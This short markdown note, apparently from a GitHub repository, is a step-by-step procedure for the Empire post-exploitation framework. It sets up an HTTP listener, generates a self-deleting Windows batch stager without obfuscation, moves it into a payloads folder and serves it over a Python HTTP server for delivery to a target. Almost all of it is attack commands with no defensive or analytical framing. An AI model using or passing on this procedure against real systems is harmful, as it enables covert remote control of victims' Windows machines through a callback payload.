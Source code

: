 Choses:

​	Without encoding

​	With simple self deleting bat execution(persistence is necessary)

​	Without obvuscation



Setup http listener

```(Empire) > listeners```

```(Empire) > uselistener http```

```(Empire) > info```

(Empire) > set Name Win10

set Port 8001

(Empire) > execute



Check if active

(Empire) > back

(Empire) > list



Setup stager

usestager windows/launcher_bat

info

set Listener Win10

execute



Go to dir

cd /tmp/launcher.bat



Move

mv /tmp/launcher.bat /root/Desktop/payloads



Setup SimpleHTTPServer 

python -m SimpleHTTPServer 8000



rename <Name> WIN10RDW

info

